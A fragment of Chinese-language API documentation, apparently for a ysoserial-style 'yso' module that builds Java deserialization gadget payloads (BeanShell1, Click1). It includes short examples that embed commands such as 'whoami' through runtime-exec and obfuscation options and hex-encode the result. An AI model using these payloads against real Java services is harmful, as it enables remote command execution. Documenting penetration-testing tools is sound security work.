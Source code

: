 返回：成功时返回修改后的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := "ls" // 假设的命令字符串
javaObject, err := yso.GetBeanShell1JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetBeanShell1JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetClick1JavaObject

#### 详细描述
GetClick1JavaObject 基于Click1 序列化模板生成并返回一个Java对象。

用户可以通过可变参数`options`提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数允许用户定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetClick1JavaObject(

	yso.useRuntimeExecEvilClass(command),
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className),
	)

```
